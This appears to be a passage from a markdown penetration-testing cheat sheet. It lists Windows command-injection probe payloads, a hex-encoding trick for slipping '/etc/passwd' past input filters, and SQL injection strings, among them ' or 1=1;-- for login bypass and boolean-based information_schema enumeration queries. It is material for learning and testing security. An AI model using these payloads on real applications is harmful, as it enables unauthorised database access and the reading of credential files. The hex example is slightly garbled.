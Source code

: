 Windows

|**Payload**|**Description**|
|---|---|
|whoami|See what user the application is running under.|
|dir|List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things.|
|ping|This command will invoke the application to hang. This will be useful in testing an application for blind command injection.|
|timeout|This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the `ping` command is not installed.|

### Bypassing
Although applications may employ numerous techniques in filtering and sanitising data that is taken from a user's input. These filters will restrict us to certain payloads. However one technique that could be utilised to bypass these filters, is to use the hexadecimal value of characters. So for example
`/etc/passwd` would become `\2xf\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64` 

## SQL Injection
An injection type attack where the web applications uses user-provided data that gets included in a SQL query.
### In-Band
Refers to the same method of communication being used to exploit the vulnerability and also receive the results.

```php
group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'DataBaseName'
```
we gather every table name from the information_schema database which is a database that every user has access to

```php
group_concat(column_name) FROM information_schema.columns WHERE table_name = 'TableName'
```
Similar to the previous one, in this case we will gather every column name from the general database where the table name is the one that we want

### Blind
#### Authentication Bypass
One of the most straightforward  blind injection techniques is when bypassing authentication methods such as login forms. Thanks to the way login forms are often developed, they only care if a matching pair is made between the user and the password in the database, thus returning a True value. We can bypass this by implementing genius level of intellect with `' or 1=1;--` which would always return true

#### Boolean Based
Refers to the response we receive back from our injection attempts, which are a true or false value, although there is not much information we can gather from out attack we can slowly but steadily enumerate the database.
Some things that may help us are 
```php
union select 1,2,3 where database() like 'a%';--
```
which will return append a selection of the number of columns we specify, and then return a true or false value depending on weather or not there is a database that starts with **a**, we can then procede to cycle through the alphabet to get the whole name of the database.
```php
union select 1,2,3 from information_schema.tables where table_schema = 'DataBase' and table_name like 'a%';--
```
similarly we can then use this to get the name of the table with the same procedure. 
```php
union select 1,2,3 from information_schema.columns where table_schema = 'DataBase' and table_name = 'Table' and column_name = 'a%';--
```